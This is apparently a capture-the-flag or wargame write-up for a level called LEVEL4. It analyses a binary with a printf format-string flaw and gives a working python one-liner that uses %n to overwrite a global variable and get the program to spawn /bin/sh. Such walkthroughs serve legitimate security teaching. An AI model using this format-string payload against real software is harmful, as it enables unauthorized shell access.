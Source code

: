 # LEVEL4

## EXPLANATIONS

### BINARY BEHAVIOR

- 3 Functions : `main`, `p` and `n`
- `main` calls `n`
- `n` function analysis
  - reads 512 bytes on stdin with fgets and put them in buf
  - calls `p(buf)`
    - `p` calls printf with buf (will be interpreted as a format string)
  - then checkinf if the variable `m` pointing to address `0x8049810` has value 16930116
    - if true, the programm call system("/bin/sh")

### EXPLOIT STRATEGY

- We are going one again use the format string exploit of printf.
  - => To do it we are going to write the value 16930116 in variable m with the identifier %n.
- The string that we pass threw the stdin will be :
  - 0x08049810 ( the address of m)
  - %16930112x (padding to reach the value)
  - %12\$n (write the value into the address)

### RUN COMMAND

```
python -c "print('\x08\x04\x98\x10'[::-1] + '%16930112x' + '%12\$n')" > /tmp/exploit_string
cat /tmp/exploit_string - | /home/user/level4/level4
```
